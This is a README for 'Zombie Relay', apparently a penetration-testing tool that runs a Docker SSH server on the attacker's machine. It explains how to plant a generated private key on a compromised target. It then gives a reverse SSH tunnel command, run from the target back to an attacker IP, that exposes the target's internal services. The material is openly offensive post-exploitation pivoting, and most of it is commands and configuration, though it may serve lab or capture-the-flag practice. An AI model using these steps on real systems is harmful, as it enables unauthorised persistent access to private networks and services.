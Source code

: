 # Zombie Relay

[PoC post](https://pwnyour.site/2025-04-19-zombie-relay.html) on my blog.

## Usage

```sh
git clone https://github.com/0xyy66/ZombieRelay.git
cd ZombieRelay
docker compose up
```

Everytime you create the container, the compose will automatically create a new private key. Drop it on the target to connect to the container.

Run the following command to copy the key from the container to your host (safest).

```sh
docker cp $(docker ps -l -q):/root/.ssh/id_ed25519 . 
```

### Tunnel a remote service on your host

In order to correctly tunnel the remote service on your host, you need to drop the private key printed by docker (id_ed25519) and run the following command on the target (assuming the target service that interests you runs locally on port 9090).

```sh
ssh -i id_rsa -p 2224 -R *:9090:127.0.0.1:9090 root@10.10.14.20 -N -f
```

The command above corresponds to: `ssh -i <private_key> -p <attacker_ssh_port> -R <attacker_iface>:<attacker_service_port>:<target_iface>:<target_service_port> root@<attacker_ip> -N -f`

### Config

You may need to edit the docker-compose.yaml file to modify the mapped ports or add more.

By default, the following ports are mapped:
- 2224:22 - OpenSSH exposed on your host on port 2224
- 9090:9090 - You can tunnel a remote application on port 9090, it will become accessible on localhost:9090


